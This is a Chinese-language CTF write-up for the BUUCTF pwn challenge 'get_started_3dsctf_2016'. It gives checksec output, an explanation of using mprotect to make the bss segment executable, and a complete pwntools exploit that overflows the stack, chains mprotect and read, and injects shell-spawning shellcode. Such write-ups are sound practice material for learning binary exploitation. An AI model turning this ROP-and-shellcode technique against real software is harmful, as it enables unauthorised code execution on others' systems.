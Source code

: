 ```yaml
---
title: BUUCTF-get_started_3dsctf_2016
date: 2020-10-01 18:31:45
tags: 
 - PWN
 - CTF
categories: "PWN"
banner_img: /pic/start-cover.jpg
---
```

# BUU-get_started_3dsctf_2016

<!-- more -->

## checksec

```shell
[*] '/home/dong/Desktop/get_started_3dsctf_2016'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## IDA

{% asset_img get_started_3dsctf_2016-ida1.png %}

程序本身很简单，有一个后门函数

{% asset_img get_started_3dsctf_2016-ida2.png %}

在本地可以直接跳到第11行的位置进行攻击，远程不行。

所以我们想办法提升某一段（bss）的权限，在这里写入shellcode，并进行执行。

通过vmmap查看，可读写段，

{% asset_img get_started_3dsctf_2016-gdb.png %}

heap上面的是bss段，0x80ea000-0x80ec000可写。

使用mprotect进行权限提升，

```c
int mprotect(const void *start, size_t len, int prot);
//*start地址的开始地址
//size_t要提升权限的空间大小
/*prot权限等级，
rwx = 4 + 2 + 1 = 7
rw = 4 + 2 = 6
rx = 4 +1 = 5
*/
```

## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level="DEBUG"
#context.arch="amd64"

p=remote('node3.buuoj.cn',29028)
#p=process('./get_started_3dsctf_2016')
elf = ELF('./get_started_3dsctf_2016')

bss=0x080EB000
mprotect=elf.symbols["mprotect"]
read_plt=elf.symbols["read"]
pop_3=0x080483b8

payload='a'*0x38+p32(mprotect)+p32(pop_3)+p32(bss)+p32(0x500)+p32(0x7) #这里我构建栈的结构为通用的结构，pop3是为了平衡栈
payload+=p32(read_plt)+p32(pop_3)+p32(0x0)+p32(bss)+p32(0x500)+p32(bss)
p.sendline(payload)
shellcode=asm(shellcraft.sh())
p.sendline(shellcode)
p.interactive()
```

## flag

{% asset_img get_started_3dsctf_2016-flag.png %}